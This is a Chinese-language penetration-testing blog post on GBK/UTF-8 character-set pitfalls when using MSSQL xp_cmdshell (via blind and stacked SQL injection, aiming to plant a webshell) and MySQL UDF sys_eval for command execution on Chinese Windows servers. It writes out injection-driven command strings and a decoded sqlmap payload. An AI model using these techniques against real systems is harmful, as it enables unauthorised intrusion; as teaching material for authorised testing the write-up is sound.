# 数据库提权中的字符集挑战-先知社区

> **来源**: https://xz.aliyun.com/news/18531  
> **文章ID**: 18531

---

在数据库渗透测试中，成功获取数据库权限后，下一步往往是通过数据库提权来执行系统命令，进而获得更高级别的系统访问权限。然而，在这个过程中字符集兼容性问题经常被忽视，于是便有了本篇文章。

**本篇文章以Windows中文环境下MSSQL和MySQL两种数据库提权为案例**

## 前言

### 数据库提权调用

无论是MSSQL还是MySQL，当我们通过数据库执行系统命令时，实际上都是在调用操作系统的命令行接口。如图所示，当我们在数据库中执行ping命令时：

* **MSSQL**


* **MySQL**:


在提权过程中**所有的系统命令最终都要通过操作系统的命令行解释器来执行**。在中文Windows系统环境下，提权便调用了cmd.exe

### 字符集

Windows查询命令行解释器的字符集

* `chcp` 命令

例如，这里的代码页 936 表示简体中文（GB2312）



* `cmd`程序属性
* 

在中文Windows系统环境下，cmd.exe默认使用**GBK字符集**进行输入输出处理，这意味着：

1. 从数据库传递给cmd的命令参数必须是GBK编码
2. cmd执行结果的输出也是GBK编码
3. 如果字符集不匹配，就会出现乱码或命令执行失败

## 排坑指南

接下来介绍在渗透过程由于**GBK字符集**遇到以下情况的解决办法

* 命令参数包含中文路径时执行失败
* 输出结果乱码无法正确解析
* ......


### MSSQL盲注提权

**环境背景**

在针对基于IIS + ASP.NET + MSSQL架构的Web应用进行渗透测试时，发现存在SQL注入漏洞，环境情况如下:

* **注入类型**: 布尔盲注、堆叠注入
* **环境限制**: 不出网、仅暴露80/443端口
* **权限状况**: 数据库用户为`sysadmin`，执行命令权限为`nt authority\system`
* **系统环境**: 中文Windows Server

为了后续方便内网渗透需要写入一个Webshell

**大体流程如下：**

1. 创建临时表存储命令执行结果
2. 利用堆叠执行系统命令，将结果插入临时表
3. 通过**盲注获取网站物理路径**
4. 写入Webshell到网站目录

#### 寻找网站根路径

根据权限级别，我们有不同的命令选择：

**高权限情况下：**

```
c:\windows\system32\inetsrv\appcmd list vdir

type C:\Windows\System32\inetsrv\Config\applicationHost.config | find "physicalPath"
```

**一般权限情况下：**

```
dir C:\ /s /b | find "[替换为网站已有的静态文件]"
```

踩坑01：**寻找网站根路径中文路径的乱码问题**

**问题现象**: 包含中文路径的配置无法正确显示，返回的结果出现乱码。当我们执行以下命令时：

```
exec master..xp_cmdshell "type C:\Windows\System32\inetsrv\Config\applicationHost.config | find "physicalPath""
```



**根本原因**:

`applicationHost.config`文件使用UTF-8编码保存，但CMD使用GBK字符集解码，导致中文字符显示为乱码

**解决方案**:

使用CyberChef等工具，通过"Encode text" → "Encode text"的recipe来恢复正确的中文字符。



#### 盲注中的非ASCII字符处理

在SQL Server中，`ASCII()`函数无法正确处理非ASCII字符：

```
SELECT ASCII('P') AS [ASCII], 	ASCII('中') AS [Chinese];
```



可以看到`ASCII()`函数无法正确映射非ASCII字符到正确的字符码位

```
SELECT NCHAR(80) AS [CHARACTER], 	NCHAR(214) AS [CHARACTER];
```



**​**

**解决思路1 - 使用UNICODE函数：**

UNICODE函数支持返回正确的字符码位，可以通过使用它来找到非ASCII字符的正确码位。并可通过NCHAR函数恢复为字符

```
SELECT UNICODE('中') AS [Unicode_Value];
```



```
SELECT NCHAR(20013) AS [Character]; 
```



**​**

**解决思路2 - 十六进制转换：**

```
SELECT 
  CONVERT   (
    VARCHAR (MAX), 
    CONVERT (
      varbinary (MAX), 
      (
        SELECT entry_value FROM daily_back WHERE id = 1
      )
    ), 
    2
  );
```

这种方法将中文字符转换为十六进制，通过盲注逐个字节读取，再通过CyberChef恢复原始字符。

#### sqlmap os-shell



那我用SQLMAP就没啥坑了吧？有的兄弟有的

​

使用sqlmap的os-shell功能时，同样会遇到字符集问题，出现中文会执行失败：



为什么会这样呢？补充个参数`--proxy http://127.0.0.1:8080`，用bp抓个包分析一下

依旧执行`dir C:\inetpub\中文路径` 命令



解码得到

```
DECLARE @gqxz VARCHAR(8000);
SET @gqxz=0x64697220433a5c696e65747075625ce4b8ade69687e8b7afe5be84;
INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @gqxz--
```

将`0x64697220433a5c696e65747075625ce4b8ade69687e8b7afe5be84`通过CyberChef解码一下，发现是默认的UTF8编码的命令



所以我们可以得到包含中文的命令执行失败原因为：SQLMAP的os-shell会自动将字符出使用UTF8编码，并直接输入`xp_cmdshell` 但CMD使用GBK解码导致乱码，执行失败

**解决办法**: 遇到包含中文的命令时，改用sqlmap的sql-shell直接执行：

```
exec master..xp_cmdshell "xxxxx"
```

### MySQL UDF提权

#### 输出结果编码错误

在中文Windows环境下MySQL UDF提权中，最常见的问题是执行结果的编码问题：

```
SELECT sys_eval("dir E:\");
```



对应的解决办法很简单，udf函数外加一层编码转化的函数

```
SELECT CONVERT(sys_eval('dir E:\') USING gbk);
```



#### 命令中的非ASCII字符处理

当命令参数包含中文，由于MySQL输入会根据默认字符集(`utf8mb4`/`latin1`)编码对应的命令进入命令行解释器

```
SELECT CONVERT(sys_eval("dir E:\附件") USING gbk);
```



**​**

**解决方案**

**方法1 - 十六进制编码**: 使用CyberChef将命令转换为对应编码的十六进制



然后使用十六进制替代原有的字符串，防止MySQL因为默认编码问题导致的含有中文命令执行错误问题



**​**

**方法2 - 编码函数**:

既然又是编码问题，那再次使用MySQL的编码转化的函数不就好了吗？何必转成16进制这么麻烦

```
SELECT CONVERT(sys_eval(CONVERT('dir E:\附件' USING gbk)) USING gbk);
```



## 总结

总是遇到这种奇奇怪怪的问题。。。。

字符集问题在数据库渗透测试中往往被忽视，在Windows环境下应当格外注意

## 参考资料

* [MSSQL高权限注入写马至中文路径](https://forum.butian.net/share/166)
* [ASCII (Transact-SQL) - SQL Server | Microsoft Learn](https://learn.microsoft.com/zh-cn/sql/t-sql/functions/ascii-transact-sql?view=sql-server-ver16)
